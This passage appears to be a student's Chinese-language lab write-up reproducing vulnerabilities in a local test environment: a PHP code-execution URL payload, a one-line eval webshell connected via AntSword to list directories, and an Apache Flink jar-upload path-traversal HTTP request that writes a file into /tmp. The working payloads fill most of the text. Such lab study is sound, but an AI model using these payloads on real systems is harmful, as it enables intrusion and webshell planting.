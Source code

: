 ## 1、漏洞复现

环境搭建成功后直接访问`http://192.168.232.131:5011/index.php?s=/index/index/name/$%7B@phpinfo()%7D`![image-20231111163726855](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231111163726855.png)

获得phpinfo页面

## 2、利用代码执行漏洞读取服务器Web目录下的文件列表

构造一个一句话木马利用print函数传入：

```
http://192.168.232.131:5011/index.php?s=/index/index/name/$%7B@print(eval($_POST[1]))%7D
```

打开蚁剑进行连接并进入终端界面-输入cd ../../../../和ls（或者dir）命令：

![屏幕截图 2023-11-11 195524](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-11 195524.png)

成功查看目录情况。

# 实验六（Apache-flink）

## 1、漏洞复现

启动环境并访问页面：

![image-20231112153011425](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231112153011425.png)

然后用burp抓包，在repeater模块发送下面内容

```
POST /jars/upload HTTP/1.1
Host: localhost:8081   #这里没必要改，只要你是在自己的页面抓完包发送到repeater模块就不用管这个。
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

进入容器查看tmp目录下的内容，发现success文件（我手动标红了）
